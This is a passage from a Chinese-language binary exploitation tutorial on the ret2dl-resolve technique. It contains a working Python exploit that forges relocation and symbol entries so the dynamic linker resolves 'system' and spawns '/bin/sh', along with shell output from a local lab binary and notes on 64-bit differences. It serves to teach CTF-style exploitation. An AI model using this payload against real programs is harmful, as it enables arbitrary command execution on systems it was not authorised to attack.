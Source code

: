 最后，只要将 "write" 替换成任何我们希望的函数，并调整参数，就可以了，这里我们换成 "system"，拿到 shell：
```python
reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align

r_sym = (fake_sym_addr - dynsym) / 0x10
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)

st_name = fake_sym_addr + 0x10 - dynstr
st_bind = 0x1
st_type = 0x2
st_info = (st_bind << 4) + (st_type & 0xf)
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)

payload_7 = "AAAA"
payload_7 += p32(plt_0)
payload_7 += p32(reloc_index)
payload_7 += "AAAA"
payload_7 += p32(base_addr + 80)
payload_7 += "AAAA"
payload_7 += "AAAA"
payload_7 += fake_reloc
payload_7 += "A" * align
payload_7 += fake_sym
payload_7 += "system\x00"
payload_7 += "A" * (80 - len(payload_7))
payload_7 += "/bin/sh\x00"
payload_7 += "A" * (100 - len(payload_7))

io.sendline(payload_7)
io.interactive()
```

Bingo!!!
```
$ python2 exp.py 
[*] '/home/firmy/Desktop/a.out'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ whoami
firmy
```

这题是 32 位程序，在 64 位下会有一些变化，比如说：
- 64 位程序一般情况下使用寄存器传参，但给 `_dl_runtime_resolve` 传参时使用栈
- `_dl_runtime_resolve` 函数的第二个参数 `reloc_index` 由偏移变为了索引。
- `_dl_fixup` 函数中，在伪造 fake_sym 后，可能会造成崩溃，需要将 `link_map+0x1c8` 地址上的值置零
